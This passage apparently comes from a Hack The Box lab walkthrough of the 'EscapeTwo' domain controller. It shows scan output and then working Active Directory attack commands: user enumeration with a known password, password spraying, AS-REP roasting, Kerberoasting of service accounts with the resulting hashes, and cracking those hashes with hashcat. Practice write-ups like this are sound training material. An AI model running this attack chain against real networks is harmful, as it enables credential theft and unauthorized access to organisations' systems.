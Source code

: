```bash
|     NetBIOS_Computer_Name: DC01
|     DNS_Domain_Name: sequel.htb
|     DNS_Computer_Name: DC01.sequel.htb
|     DNS_Tree_Name: sequel.htb
|_    Product_Version: 10.0.17763
| ms-sql-info:
|   10.10.11.51:1433:
|     Version:
|       name: Microsoft SQL Server 2019 RTM
|       Post-SP patches applied: false

3268/tcp  open  ldap

# UDP ports
PORT    STATE SERVICE
53/udp  open  domain
88/udp  open  kerberos-sec
123/udp open  ntp
```
{% endcode %}

```bash
# Add FQDN in the local DNS file
$ grep seq /etc/hosts
10.10.11.51     escapetwo DC01.sequel.htb sequel.htb dc01
```

{% code overflow="wrap" %}
```bash
# Enumerate domain users and build a wordlist
$ nxc smb escapetwo -u rose -p KxEPkKe6R8su --users | awk '$1 == "SMB" && $5 != "[+]" && $5 != "-Username-" && $5 != "[*]" && $5 != "Guest" && $5 != "krbtgt" {print $5}' > domain_users

# Password-spray for reused credentials
$ nxc smb escapetwo -u domain_users -p KxEPkKe6R8su --continue-on-success
...

# Test for AS-REPRoasting
$ impacket-GetNPUsers sequel.htb/ -dc-ip escapetwo -no-pass -usersfile domain_users

# Test for Kerberoasting
$ impacket-GetUserSPNs -request -dc-ip escapetwo sequel.htb/rose:KxEPkKe6R8su
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies

ServicePrincipalName     Name     MemberOf                                              PasswordLastSet             LastLogon                   Delegation
-----------------------  -------  ----------------------------------------------------  --------------------------  --------------------------  ----------
sequel.htb/sql_svc.DC01  sql_svc  CN=SQLRUserGroupSQLEXPRESS,CN=Users,DC=sequel,DC=htb  2024-06-09 08:58:42.689521  2025-05-27 16:39:53.688253
sequel.htb/ca_svc.DC01   ca_svc   CN=Cert Publishers,CN=Users,DC=sequel,DC=htb          2025-05-27 17:22:29.818174  2025-05-27 16:45:04.623032


[-] CCache file is not found. Skipping...
$krb5tgs$23$*sql_svc$SEQUEL.HTB$sequel.htb/sql_svc*$2cf...d65
$krb5tgs$23$*ca_svc$SEQUEL.HTB$sequel.htb/ca_svc*$b29...4d5

# Crack the obtained hashes
$ hashcat -m 13100 svc_hashes /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force
...

```
{% endcode %}